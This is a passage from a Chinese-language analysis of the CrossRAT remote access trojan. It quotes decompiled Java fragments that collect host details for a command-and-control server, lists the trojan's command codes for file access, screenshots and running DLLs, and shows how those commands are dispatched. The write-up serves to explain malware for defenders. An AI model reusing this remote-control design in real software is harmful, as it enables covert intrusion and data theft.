 当恶意软件从远程C&amp;C服务器那里获取到了操作指令之后，它将会把受感染主机的信息（例如操作系统版本、主机名和用户名等等）发送给攻击者。生成主机信息的代码如下所示：

```
public static void main(String args[])
`{`
...
if((k.g = (k.h = Preferences.userRoot()).get("UID", null)) == null)
`{`
k.g = (k.f = UUID.randomUUID()).toString();
k.h.put("UID", k.g);
`}`
String s1 = System.getProperty("os.name");
String s2 = System.getProperty("os.version");
args = System.getProperty("user.name");
Object obj1;
obj1 = ((InetAddress) (obj1 = InetAddress.getLocalHost())).getHostName();
obj1 = (new StringBuilder(String.valueOf(args))).append("^")
.append(((String) (obj1))).toString();
...
```

接下来，恶意软件会对C&amp;C服务器返回的响应信息进行解析，然后寻找攻击者发送过来的命令并尝试执行。<br>
现在，你可能会想知道这款恶意软件到底会做哪些事情！也就是说，它到底有什么功能？幸运的是，EFF/Lookout的研究报告已经给我们提供了很多细节信息了。下面是报告中所介绍的crossrat/k.class部分代码，其中包含了CrossRAT的任务值：

```
// Server command prefixes
public static String m = "@0000"; // Enumerate root directories on the system. 0 args
public static String n = "@0001"; // Enumerate files on the system. 1 arg
public static String o = "@0002"; // Create blank file on system. 1 arg
public static String p = "@0003"; // Copy File. 2 args
public static String q = "@0004"; // Move file. 2 args
public static String r = "@0005"; // Write file contents. 4 args
public static String s = "@0006"; // Read file contents. 4 args
public static String t = "@0007"; // Heartbeat request. 0 args
public static String u = "@0008"; // Get screenshot. 0 args
public static String v = "@0009"; // Run a DLL 1 arg
```

使用了这些任务值的代码可以在crossrat/client.class文件中找到，正如之前所介绍的那样，恶意软件会解析C&amp;C服务器所返回的响应数据，并根据命令进行操作：

```
public static void main(String args[])
 `{`
 …
//enum root directories
if((args1 = args.split((new StringBuilder("\"))
    .append(crossrat.k.d).toString()))[0].equals(k.m))
`{`
    new crossrat.e();
    crossrat.e.a();
    f f1;
    (f1 = new f()).start();
`}` 

//enum files
else if(args1[0].equals(k.n))
    (args = new crossrat.c(args1[1])).start();

//create blank file
else if(args1[0].equals(k.o))
    (args = new crossrat.a(args1[1])).start();

//copy file
else if(args1[0].equals(k.p))
    (args = new crossrat.b(args1[1], args1[2])).start();

```